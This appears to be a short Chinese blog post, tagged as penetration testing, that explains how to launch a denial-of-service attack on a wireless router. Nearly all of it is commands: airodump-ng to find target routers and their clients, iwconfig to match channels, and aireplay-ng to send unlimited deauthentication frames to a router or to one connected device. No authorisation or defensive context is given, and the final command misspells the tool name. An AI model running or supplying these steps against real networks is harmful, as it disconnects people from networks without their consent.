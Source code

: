 ```yaml
---
title: 对无线路由发起DoS攻击
date: 2024-01-26 22:31:41
tags: 渗透测试
mathjax: true
---
```


# 对无线路由发起DoS攻击

先断开连接，查看附近所有WiFi：

```bash
airodump-ng wlan0
```

记录目标MAC地址，尝试攻击，“-0 0”表示无限次数攻击：

```bash
aireplay-ng -0 0 -a MAC地址 wlan0
```

很有可能本机与目标路由不在同一信道，尝试更改信道：

```bash
iwconfig wlan0 channel 目标信道
```

以上流程适用于攻击该无线路由，以下方法为针对目标终端。

查看都有哪些终端连接到该无线路由：

```bash
airodump-ng --bssid 无线路由MAC地址 wlan0
```

嗅探到目标终端的MAC地址后，再次确认是否在同一信道，尝试进行攻击：

```bash
aireply-ng -0 0 -a 无线路由MAC地址 -c 目标终端MAC地址 wlan0
```
